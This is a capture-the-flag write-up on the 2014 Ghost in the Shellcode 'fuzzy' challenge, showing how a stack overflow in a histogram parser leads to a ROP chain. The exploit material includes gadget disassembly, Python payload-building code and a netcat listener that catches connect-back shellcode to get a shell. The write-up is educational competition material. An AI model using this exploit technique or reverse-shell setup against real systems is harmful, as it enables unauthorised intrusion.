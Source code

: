 Title: Ghost in the Shellcode 2014 - <code>fuzzy</code>
Date: 2014-01-19
Tags: ctf, exploitation

tl;dr - `fuzzy` is a "super secure parsing engine", that includes a histogram function. The histogram ascii text uses a buffer on the stack, but will increment
buckets past the end of the buffer if non ascii text is provided, allowing us to
rop. Binary and exploit available <a
href="http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2014/01/fuzzy.tar.gz">here</a>.
Cross post from <a href="http://ppp.cylab.cmu.edu/wordpress/?p=1146">PPP
blog</a>.

## The program ##

`fuzzy` is a "super secure parsing engine", that includes a histogram function:
 
    :::console
    $ nc fuzzy.2014.ghostintheshellcode.com 4141
    Welcome to the super secure parsing engine!
    Please select a parser!
    
    1) Sentence histogram
    2) Sorted characters (ascending)
    3) Sorted characters (decending)
    4) Sorted ints (ascending)
    5) Sorted ints (decending
    6) global_find numbers in string
    1
    Enter a series of characters
    hello
     :0	!:0	":0	#:0	$:0	
    %:0	&:0	':0	(:0	):0	
	... <snip> ...
    a:0	b:0	c:0	d:0	e:1	
    f:0	g:0	h:1	i:0	j:0	
    k:0	l:2	m:0	n:0	o:1	
    p:0	q:0	r:0	s:0	t:0	
    u:0	v:0	w:0	x:0	y:0	
    z:0	{:0	|:0	}:0	

As you can see, it computes a histogram of the input. This histogram
is constructed using a buffer that is on the stack, so if we send it
non-ascii text we can write to the stack. By modifying the saved `ebp`,
we can point the stack to a buffer we control. 

Unfortunately, this is a bit challenging to figure out because all 
the interesting functions are encrypted. Fortunately for us, the "encryption"
is just bitwise not. Using our favorite hex editor, we make a new binary with 
the decrypted functions to reverse.

With control of the stack, we get control over rip and can ROP.
We will use the `callFunction` function, which decrypts a function
into an executable page and then runs it. Our goal will be to `read` encrypted shellcode
into a known location (there is a convenient buffer `dontcollide` in the data
section that is never used), then invoke `callFunction` to run our shellcode. 
Unfortunately, since this is x64, we need to find a good gadget to be able to
control registers and call functions. Luckily, there is a good gadget in 
`__libc_csu_init`:

    :::nasm
    loc_401790:                             ; CODE XREF: __libc_csu_init+64j
                    mov     rdx, r13
                    mov     rsi, r14
                    mov     edi, r15d
                    call    qword ptr [r12+rbx*8]
                    add     rbx, 1
                    cmp     rbx, rbp
                    jnz     short loc_401790
    
    loc_4017A6:                             ; CODE XREF: __libc_csu_init+4Aj
                    mov     rbx, [rsp+8]
                    mov     rbp, [rsp+10h]
                    mov     r12, [rsp+18h]
                    mov     r13, [rsp+20h]
                    mov     r14, [rsp+28h]
                    mov     r15, [rsp+30h]
                    add     rsp, 38h
                    retn
					
This gadget allows us to control the first three  registers we need an call 
anything we have function pointer to. The program uses a large function pointer table to enable
the encrypted functions to call library functions, so we have pointers to many
library functions. Unfortunately, we do *not* have a pointer to `readAll`, so we
cannot use it with our gadget. Furthermore, our gadget only controls 3 arguments,
so we cannot easily use `recv`. Lastly, we cannot use the encrypted `my_readAll`
function (that we have a pointer to) because it reads its arguments out of a
buffer and we don't have an easy way to call functions with a buffer we control 
as an argument. Still, this gadget allows us to chain calls arbitrary function pointers
with 3 arguments:

    :::python
    # Assumes rip points to loc_4017A6.
    def call(function_ptr, arg0, arg1, arg2):
	  # Make sure rbx is 0 to make math easy, and rbp is 1 so we fall through to
	  # loc_4017A6 for repeated calls.
	  #      padding            rbx       rbp       r12                  r13=rdx      r14=rsi      r15=edi
      return pack(0xdeadbeef) + pack(0) + pack(1) + pack(function_ptr) + pack(arg2) + pack(arg1) + pack(arg0) + pack(__libc_csu_init_gadget)

Instead, we make a function pointer to `readAll` in the data section that we can use our
gadget.
We call `memset` 4 times, once for each distinct byte in
the the address of `readAll`, and make `dontcollide` a pointer to `readAll`.

    :::python
    # Set dontcollide to be a function pointer to readAll (0x4013cb).
    payload += call(memset_fptr, dontcollide, 0, 8)
    payload += call(memset_fptr, dontcollide, 0xcb, 1)
    payload += call(memset_fptr, dontcollide + 1, 0x13, 1)
    payload += call(memset_fptr, dontcollide + 2, 0x40, 1)
 
We then can use our gadget to call `readAll`, 
reading the encrypted shellcode into `dontcollide`, and then again to call
`callFunction`, executing our shellcode. 

    :::python
    # Read the shellcode into a buffer. The socket to read from is 4.
    payload += call(dontcollide, 4, dontcollide, 0x400)
    
    # Call our shellcode.
    payload += call(callEncryptedFunction_fptr, dontcollide, 0, 0)

We grab some connect back shellcode 
and get a shell:

    :::console
    ~% python fuzzy.py                                           [console 1]
    ~% nc -l 16705                                               [console 2]
    cat key.txt
    key is: fuzzingIsFun2 
